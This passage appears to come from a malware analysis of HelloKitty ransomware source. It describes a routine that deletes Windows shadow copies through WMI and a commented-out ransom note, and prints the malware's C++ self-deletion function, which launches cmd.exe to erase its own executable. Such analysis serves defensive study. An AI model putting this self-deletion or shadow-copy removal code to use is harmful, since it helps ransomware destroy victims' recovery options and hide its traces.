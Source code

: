 The `removeShadows` function initializes WMI interfaces, configures context for 64-bit systems, connects to WMI, and deletes all instances of `Win32_ShadowCopy`. It ensures proper security settings and releases allocated resources, effectively removing shadow copies.     

You can also see the commented code:    

![hellokitty](/assets/images/11/2023-11-09_23-00.png){:class="img-responsive"}      

It seems to be a commented-out section containing a message to inform users about file encryption, its consequences, and instructions on obtaining a decryption key by paying a specified amount of money. This is a common approach in ransomware to communicate with victims.     

The function `SelfDelete2` is designed for the self-destruction of the malware executable.    

```cpp
void SelfDelete2() 
{
  WCHAR wMyPath[MAX_PATH * 2];
  GetModuleFileNameW(NULL, wMyPath, ARRAYSIZE(wMyPath));

  WCHAR wMyFileName[MAX_PATH];
  lstrcpyW(wMyFileName, PathFindFileNameW(wMyPath));

  PathRemoveFileSpecW(wMyPath);
  PathAddBackslashW(wMyPath);

  WCHAR wCmd[MAX_PATH];
  wsprintfW(wCmd, L"/C ping 127.0.0.1 & del %s", wMyFileName);
  ShellExecuteW(0, L"open", L"cmd.exe", wCmd, wMyPath, SW_SHOWNORMAL);
}
```
